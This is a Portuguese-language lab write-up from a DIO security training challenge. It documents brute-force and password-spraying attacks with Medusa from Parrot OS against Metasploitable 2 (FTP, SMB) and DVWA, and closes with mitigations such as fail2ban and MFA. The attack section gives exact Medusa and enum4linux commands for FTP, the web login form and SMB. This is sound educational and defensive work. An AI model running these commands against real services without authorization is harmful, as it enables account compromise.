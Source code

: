 # dio-desafio-medusa-parrot-bruteforce

# Simulação de Ataques de Força Bruta em Ambientes Controlados: Usando Parrot OS e Medusa

Objetivo: simular ataques em FTP, Web e SMB, documentar o processo, propor mitigações

Este projeto prático foi desenvolvido como parte do desafio proposto pela DIO, com o objetivo de simular e documentar ataques de força bruta contra serviços e aplicações web em um ambiente de laboratório controlado.

A simulação utilizou o Parrot OS Security Edition como a plataforma principal de ataque, aproveitando suas ferramentas pré-instaladas, com ênfase na ferramenta Medusa, combinada com a customização de wordlists.

O ambiente de teste consistiu em máquinas virtuais configuradas em uma rede em modo Bridge, tendo como alvos principais:

# Alvo e Serviço: Metasploitable 2 (FTP). 
Objetivo da Simulação: Realizar um ataque de força bruta no serviço FTP (porta 21) para obter credenciais de acesso, demonstrando a vulnerabilidade de serviços com senhas fracas.
![metasploitable](imagens/matasploitable.png)

# Alvo e Serviço: DVWA (Damn Vulnerable Web Application)
Objetivo da Simulação: Atacar o formulário de login web, simulando a automação de tentativas de login HTTP POST com o Medusa, e entendendo como a segurança da aplicação (níveis de dificuldade) afeta a eficácia do ataque.
![DVWA](imagens/DVWA.png)

# Alvo e Serviço: Metasploitable 2 (SMB)
Objetivo da Simulação: Explorar a enumeração de usuários (utilizando ferramentas como enum4linux ou Nmap) e, em seguida, executar um ataque de password spraying no serviço SMB (porta 445), visando identificar contas com senhas comuns.

# Configuração do Ambiente
Máquinas Virtuais: Metasploitable 2/DVWA).
Software de Virtualização (VirtualBox). 
Configuração de Rede (Bridge).
![rede](imagens/rede.png)

# Passo a Passo dos Ataques Simulados
Foi criada uma seção para cada serviço atacado (FTP, Web - DVWA, SMB).

A. Ataque a FTP (Serviço vsftpd do Metasploitable 2)
 comando: medusa -h 192.168.1.7 -u msfadmin -P pass.txt -M ftp
 -h: Host Alvo
 -u: Usuário (ou -U para lista de usuários)
 -P: Wordlist de Senhas
 -M: Módulo/Serviço a ser atacado (ftp)
![mfsadmin](imagens/mfsadmin.png)

B. Ataque a Formulário Web (DVWA)
 comando: medusa -h 192.168.1.7 -M http -m "Location: index.php" -u "admin" -P wordlist-pass.txt -d "username=^USER^&password=^PASS^&Login=Login" -t 5 -T 1
 -H: Cabeçalho
 -d: Dados do POST, onde ^USER^ e ^PASS^ são os placeholders
 -m: Mensagem de erro (para saber quando falhou)
 ![login](imagens/login.png)

C. Ataque a SMB (Enumeração de Usuários e Password Spraying)
 comando: enum4linux 192.168.1.10
 Encontra usuários existentes no serviço SMB

 comando: medusa -h 192.168.1.7 -U smb_users.txt -p 'password' -M smb
 -U: Lista de Usuários
 -p: Senha única (para password spraying)
![metasploitablelogin](imagens/metasploitablelogin.png)

# Wordlists Utilizadas:
pass.txt, users.txt, senhas_spray.txt, smb_users.txt.

# Recomendações de Mitigação
Políticas de senha forte (complexidade, tamanho). - Técnicas: Bloqueio de IP após N tentativas (fail2ban), uso de autenticação de dois fatores (MFA), desativação de serviços não essenciais (ex: FTP/SMB se não usados), monitoramento de logs.

# Conclusão e Reflexões

O desafio prático demonstrou, de forma clara e controlada, a simplicidade e a eficácia do uso de ferramentas open-source, como o Medusa no Parrot OS, na execução de técnicas de força bruta. Em questão de segundos, foi possível evidenciar a vulnerabilidade de serviços que não aderem aos padrões básicos de segurança.

A experiência escancara como é fácil para um atacante utilizar uma *wordlist* personalizada ou pública (derivada de vazamentos históricos de dados) para obter acesso a contas com senhas fracas.

Neste cenário de ameaças, fica evidente que:

Senhas Fortes são a Base, mas Insuficientes: 
A implementação de políticas de senhas robustas é o primeiro e fundamental elo da corrente de segurança.

Autenticação de Dois Fatores (MFA) é Essencial:
A MFA se estabelece não mais como uma camada opcional, mas sim como uma necessidade crítica para defender contas contra ataques de força bruta bem-sucedidos.

Conhecimento Ofensivo para Defesa: Para nós, profissionais de Segurança da Informação, defender sistemas requer um conhecimento elementar e prático destas vulnerabilidades ofensivas. Somente ao entender como os ataques são realizados podemos implementar contramedidas eficazes, como bloqueio de IPs (fail2ban), limitação de rate e monitoramento de logs, garantindo a mitigação e prevenção de acessos indevidos aos nossos ativos.

Este projeto reforça a importância da segurança por design e da constante vigilância contra táticas de ataque que exploram a fragilidade humana e a má configuração de sistemas.

